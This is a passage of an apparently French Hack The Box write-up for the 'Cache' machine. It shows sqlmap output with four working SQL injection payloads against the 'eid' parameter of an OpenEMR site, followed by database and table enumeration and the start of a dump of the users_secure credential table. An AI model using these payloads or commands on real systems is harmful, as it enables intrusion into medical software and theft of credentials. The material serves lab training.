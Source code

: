 [*] starting @ 10:07:38 /2020-06-20/

[10:07:38] [INFO] parsing HTTP request from 'sqli.req'
[10:07:38] [INFO] resuming back-end DBMS 'mysql' 
[10:07:38] [INFO] testing connection to the target URL
[10:07:38] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: eid (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: eid=(SELECT (CASE WHEN (4390=4390) THEN 1 ELSE (SELECT 4655 UNION SELECT 8646) END))

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: eid=1 AND EXTRACTVALUE(1573,CONCAT(0x5c,0x7170767671,(SELECT (ELT(1573=1573,1))),0x71766a7a71))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: eid=1 AND (SELECT 2107 FROM (SELECT(SLEEP(5)))uTiN)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: eid=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170767671,0x536547556e76446b4a6662416e5474786571584c6567614d5174415753534f674a4c70646a637351,0x71766a7a71),NULL-- -
---
[10:07:38] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.1
[10:07:38] [INFO] fetching database names
[10:07:38] [INFO] resumed: 'information_schema'
[10:07:38] [INFO] resumed: 'openemr'
available databases [2]:                                                           
[*] information_schema
[*] openemr

[10:07:38] [INFO] fetched data logged to text files under '/root/.sqlmap/output/hms.htb'
[10:07:38] [WARNING] you haven't updated sqlmap for more than 78 days!!!

[*] ending @ 10:07:38 /2020-06-20/

root@Host-001:~/Bureau/htb/Cache# 
root@Host-001:~/Bureau/htb/Cache# sqlmap -r sqli.req --threads=10 -D openemr --tables
(...)
transactions                          |
| user_settings                         |
| users                                 |
| users_facility                        |
| users_secure                          |
| valueset                              |
| voids                                 |
| x12_partners                          |
+---------------------------------------+
~~~

Il y a une table users_secure

~~~
root@Host-001:~/Bureau/htb/Cache# sqlmap -r sqli.req --threads=10 -D openemr -T users_secure --dump
        ___
       __H__
